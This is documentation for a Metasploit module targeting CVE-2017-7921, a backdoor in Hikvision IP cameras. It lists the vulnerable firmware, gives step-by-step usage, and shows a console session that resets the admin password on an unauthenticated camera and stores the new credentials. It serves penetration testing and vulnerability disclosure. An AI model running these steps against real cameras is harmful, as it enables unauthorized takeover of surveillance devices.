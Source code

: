 ## Vulnerable Application

Many Hikvision IP cameras contain a backdoor that allows unauthenticated impersonation of any
configured user account. This is possible due to the firmware containing a hard coded magic string
that bypasses all security on the camera and will provide full admin access. This allows a hacker to
completely control the camera and modify any setting or retrieve sensitive information.

This module allows the attacker to perform an unauthenticated password change on
any vulnerable Hikvision IP Camera, which can be used to gain full administrative access
to the affected device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled
camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

## Verification Steps

1. `use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set USERNAME <name of user>`
1. `set PASSWORD <new password>`
1. `check`
1. `set ID <id of user whose password you want to reset from "check" output>`
1. `run`
1. You should get a message that the password for the user successfully has been changed.

## Options
### STORE_CRED
This option allows you to store the user and password credentials in the Metasploit database for further use.

## Scenarios

### Hikvision unauthenticated password reset of the admin user with id=1

```
msf6 > use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set RHOSTS 192.168.100.180
RHOSTS => 192.168.100.180
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set PASSWORD Pa$$W0rd
PASSWORD => Pa$$W0rd
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set ID 1
ID => 1
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set STORE_CRED true
STORE_CRED => true
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > options

Module options (auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ID          1                yes       ID (default 1 for admin)
   PASSWORD    Pa$$W0rd         yes       New Password (at least 2 UPPERCASE, 2 lowercase and 2 special characters
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                          t
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credential into the database.
   USERNAME    admin            yes       Username for password change
   VHOST                        no        HTTP server virtual host

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > check

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[*] Starting the password reset for admin...
[+] Password reset for admin was successfully completed!
[*] Please log in with your new password: Pa$$W0rd
[*] Credentials for admin were added to the database...
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) 
```
